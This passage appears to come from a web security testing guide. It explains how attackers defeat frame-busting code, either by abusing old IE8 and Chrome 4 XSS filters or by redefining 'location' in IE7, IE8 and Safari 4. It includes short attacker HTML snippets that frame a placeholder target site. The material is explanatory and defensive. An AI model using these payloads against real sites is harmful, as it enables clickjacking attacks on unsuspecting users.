 Attacker code:

```html
<iframe src=”http://target site/?param=<script>if”>
```

- **Chrome 4.0 XSSAuditor filter**: It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.

Example: Target web page frame busting code:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Attacker code:

```html
<iframe src=”http://target site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
```

##### Redefining Location

For several browser the “document.location” variable is an immutable attribute. However, for some version of Internet Explorer and Safari, it is possible to redefine this attribute. This fact can be exploited to evade frame busting code.

- **Redefining location in IE7 and IE8**: it is possible to redefine “location” as it is illustrated in the following example. By defining “location” as a variable, any code that tries to read or to navigate by assigning “top.location” will fail due to a security violation and so the frame busting code is suspended.

Example:

```html
<script>
    var location = "xyz";
</script>
<iframe src="http://target site"></iframe>
```

- **Redefining location in Safari 4.0.4**: To bust frame busting code with “top.location” it is possible to bind “location” to a function via defineSetter (through window), so that an attempt to read or navigate to the “top.location” will fail.

Example:

```html
<script>
    window.defineSetter("location" , function(){});
</script>
<iframe src="http://target site"></iframe>
```
